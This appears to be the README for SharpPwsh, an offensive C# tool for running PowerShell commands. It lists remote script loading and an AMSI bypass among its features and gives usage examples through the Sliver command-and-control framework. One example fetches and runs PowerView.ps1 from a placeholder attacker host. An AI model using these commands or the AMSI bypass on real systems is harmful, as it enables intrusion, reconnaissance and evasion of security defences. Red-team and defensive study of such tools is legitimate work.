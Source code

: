 # SharpPwsh
C# .Net Framework program that uses `RunspaceFactory` for Powershell command execution.

## Features
- Execute Powershell commands
- Load & execute remote script
- AMSI Bypass

## Usage

```
SharpPwsh 1.0.0.0
Copyright c  2022

  -c, --cmd            Required. Powershell command to run

  -u, --uri            URI to fetch remote script

  -b, --bypass-amsi    Bypass AMSI

  --help               Display this help screen.

  --version            Display version information.
```

## Examples

```
# execute powershell command
sliver > execute-assembly -i /home/hacker/SharpPwsh.exe -c whoami

# load remote script and execute
sliver > execute-assembly -i /home/hacker/SharpPwsh.exe -u http://x.x.x.x/PowerView.ps1 -c get-netlocalgroup
```

## Planned
- Load & execute embedded script
- Load & execute script from disk
- Load & execute script from clipboard
- Compression & encryption support for scripts
- Multiple command support

## Build
Built using .NET Framework v4.5.1 in Visual Studio 2019.

**Be sure to add `c:\windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll` as a reference.**